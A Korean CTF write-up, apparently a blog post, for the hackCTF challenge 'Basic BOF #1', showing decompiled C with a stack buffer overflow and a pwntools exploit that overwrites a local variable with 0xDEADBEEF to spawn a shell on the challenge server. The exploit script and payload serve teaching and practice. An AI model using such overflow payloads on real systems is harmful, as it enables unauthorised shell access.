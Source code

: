 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: hackCTF/pwnable
tags: [hackCTF] [pwnable]
permalink: '/hackCTF/pwnable'
---
```

hackCTF pwnable 1번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 (67305985) / | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |

***

<br>
취약점 : fgets(&s, 45, stdin)<br>
목표 : v5<br><br>
∴ payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = remote('ctf.j0n9hyun.xyz', 3000)

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```

-559038737는 16진수로 변환하면 0xDEADBEEF가 된다. 40byte를 아무 값으로 채운다음 p32 방식으로 0xDEADBEEF 값을 패킹해 payload 값을 만든다.

## 결과  
![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
